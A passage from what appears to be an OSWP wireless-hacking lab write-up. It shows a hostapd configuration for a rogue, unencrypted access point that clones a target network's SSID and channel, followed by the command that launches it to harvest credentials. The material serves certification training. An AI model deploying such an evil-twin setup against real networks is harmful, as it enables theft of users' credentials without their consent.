 The last item on our list is the rogue AP configuration file. We will be using `hostapd` to run the AP. We can install it with sudo apt install hostapd.

We will be creating a `802.11n AP` with the exact same `SSID` and channel as the `AP` we are targeting, but we won't be using any encryption.

```bash
interface=wlan0
ssid=MegaCorp One Lab
channel=11

# 802.11n
hw_mode=g
ieee80211n=1

# Uncomment the following lines to use OWE instead of an open network
#wpa=2
#ieee80211w=2
#wpa_key_mgmt=OWE
#rsn_pairwise=CCMP
```

Now that we have put all the pieces together, let's run `hostapd` and get some credentials.

```bash
┌──(root💀gobots)-[16Apr2025 23:06:26]-[/home/kali/SUT/OSWP/www.megacorpone.com]
└─# sudo hostapd -B mco-hostapd.conf
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED 
```